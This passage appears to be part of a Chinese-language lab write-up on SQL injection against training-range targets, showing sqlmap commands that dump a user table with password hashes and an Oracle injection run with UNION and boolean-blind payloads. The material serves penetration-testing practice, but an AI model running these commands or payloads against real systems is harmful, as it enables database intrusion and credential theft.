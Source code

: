 ```bash
└─# sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -D public -T reg_users -C "name,password" --dump --batch
[2 entries]
+--------+---------------------------------------------+
| name   | password                                    |
+--------+---------------------------------------------+
| mozhe2 | 1c63129ae9db9c60c3e8aa94d3e00495 (1qaz2wsx) |
| mozhe1 | aa92e4057b30d003d87b61b1b12ae909            |
+--------+---------------------------------------------+

```
<a name="WrGcA"></a>
#### 4、Oracle注入
参考文档：[https://www.cnblogs.com/peterpan0707007/p/8242119.html](https://www.cnblogs.com/peterpan0707007/p/8242119.html)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624426406192-a78f3b33-5e23-4f6f-9b06-bc9bb14852b0.png#clientId=ud6a0c087-47ab-4&from=paste&height=369&id=u578ec6da&originHeight=738&originWidth=1920&originalType=binary&ratio=2&size=80868&status=done&style=none&taskId=ufddf7e75-e532-47f9-bdde-c053a2afb1a&width=960)
```bash
┌──(root💀kali)-[~/hackbar]
└─# sqlmap -u http://219.153.49.228:41644/new_list.php?id=1 --batch
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2434=2434

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-4068 UNION ALL SELECT CHR(113)||CHR(118)||CHR(122)||CHR(112)||CHR(113)||CHR(88)||CHR(97)||CHR(102)||CHR(67)||CHR(117)||CHR(109)||CHR(97)||CHR(101)||CHR(110)||CHR(105)||CHR(85)||CHR(72)||CHR(117)||CHR(99)||CHR(88)||CHR(119)||CHR(73)||CHR(79)||CHR(85)||CHR(76)||CHR(89)||CHR(98)||CHR(106)||CHR(78)||CHR(114)||CHR(73)||CHR(81)||CHR(115)||CHR(109)||CHR(104)||CHR(109)||CHR(89)||CHR(98)||CHR(120)||CHR(89)||CHR(117)||CHR(103)||CHR(88)||CHR(75)||CHR(104)||CHR(113)||CHR(106)||CHR(106)||CHR(112)||CHR(113),NULL FROM DUAL-- DhFb
---
[13:34:35] [INFO] testing Oracle
[13:34:35] [INFO] confirming Oracle
[13:34:35] [INFO] the back-end DBMS is Oracle
back-end DBMS: Oracle
[13:34:35] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/219.153.49.228'
[13:34:35] [WARNING] your sqlmap version is outdated

[*] ending @ 13:34:35 /2021-06-23/

```
<a name="h7WOm"></a>
#### 5、mongoDB注入
参考文档：[https://www.cnblogs.com/wefeng/p/11503102.html](https://www.cnblogs.com/wefeng/p/11503102.html)<br />SQLmap不能识别MongoDB这里介绍nosqlattack:[https://github.com/youngyangyang04/NoSQLAttack](https://github.com/youngyangyang04/NoSQLAttack)
```bash
┌──(root💀kali)-[~/hackbar]
└─# sqlmap -u http://219.153.49.228:47077/new_list.php?id=1 --batch
[13:53:16] [INFO] testing connection to the target URL
[13:53:16] [INFO] testing if the target URL content is stable
[13:53:16] [INFO] target URL content is stable
[13:53:16] [INFO] testing if GET parameter 'id' is dynamic
[13:53:16] [INFO] GET parameter 'id' appears to be dynamic
[13:53:16] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[13:53:16] [INFO] testing for SQL injection on GET parameter 'id'
[13:53:16] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:53:17] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
```